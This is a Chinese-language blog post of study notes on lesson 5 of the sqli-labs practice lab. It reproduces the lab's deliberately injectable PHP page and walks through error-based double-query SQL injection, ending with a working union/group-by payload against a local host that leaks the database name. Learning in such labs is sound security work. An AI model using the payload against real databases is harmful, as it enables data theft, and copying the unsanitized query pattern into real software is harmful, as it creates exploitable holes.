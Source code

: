 ```yaml
---
title: sqli-labs学习笔记_04
categories:
- sqli-labs
tags:
- sql注入
updated: 2018-06-07
---
```


**第五节：GET - Double Injection - Single Quotes - String** (双注入GET单引号字符型注入)

 

可以在你的php文件中加上一句话:echo "你的sql语句是：

```php+HTML
echo "你的sql语句是：".$sql."<br>";
```

代码如下：

~~~php+HTML
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Less-5 Double Query- Single Quotes- String</title>
</head>

<body bgcolor="#000000">
<div style=" margin-top:60px;color:#FFF; font-size:23px; text-align:center">Welcome&nbsp;&nbsp;&nbsp;<font color="#FF0000"> Dhakkan </font><br>
<font size="3" color="#FFFF00">


<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);
// take the variables
if(isset($_GET['id']))
{
$id=$_GET['id'];
//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);

// connectivity 


$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
echo "你的sql语句是：".$sql."<br>";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';	
  	echo 'You are in...........';
  	echo "<br>";
    	echo "</font>";
  	}
	else 
	{
	
	echo '<font size="3" color="#FFFF00">';
	print_r(mysql_error());
	echo "</br></font>";	
	echo '<font color= "#0000ff" font size= 3>';	
	
	}
}
	else { echo "Please input the ID as parameter with numeric value";}

?>

</font> </div></br></br></br><center>
<img src="../images/Less-5.jpg" /></center>
</body>
</html>

~~~



 当使用http://127.0.0.1/Less-5/?id=1的时候：

<img src="{{ site.url }}/assets//blog_images/sqli-labs_05_01.png" />

出现了和上面4个不一样的，没有正常的输出用户名和密码。

代码块：

```php+HTML
if($row)
	{
  	echo '<font size="5" color="#FFFF00">';	
  	echo 'You are in...........';
  	echo "<br>";
    	echo "</font>";
  	}
```

就没有输出$row的结果。。。。。

百度大神的有：双查询注入顾名思义形式上是两个嵌套的查询，即select ...(select ...)，里面的那个select被称为子查询，他的执行顺序也是先执行子查询，然后再执行外面的select，双注入主要涉及到了几个sql函数：

rand()随机函数，返回0~1之间的某个值

floor(a)取整函数，返回小于等于a，且值最接近a的一个整数

count()聚合函数也称作计数函数，返回查询对象的总数

group by cluase分组语句，按照cluase对查询结果分组

如果还是不懂可以看此链接：<http://www.2cto.com/article/201303/192718.html>

双注入的原理总的来说就是，当一个聚合函数后面出现group分组语句时，会将查询的一部分结果以报错的形式返回，他有一个固定的公式。 那么开始构建sql语句：

 `http://127.0.0.1/Less-5/?id=-1' union select count(*),2,concat('*',(select database()),'*',floor(rand()*2))as a from information_schema.tables group by a--+`



<img src="{{ site.url }}/assets//blog_images/sqli-labs_05_02.png" />

通过改变 limit 的值就可以遍历用户信息 

sql注入比较难，中间有很多的坑，都是慢慢来的，比如 --+  有时候会不小心写成—+  或者是少了）之类的，一定要有耐心



<img src="{{ site.url }}/assets//blog_images/sqli-labs_04_04.png" />



(个人学习笔记，部分转自互联网)













 








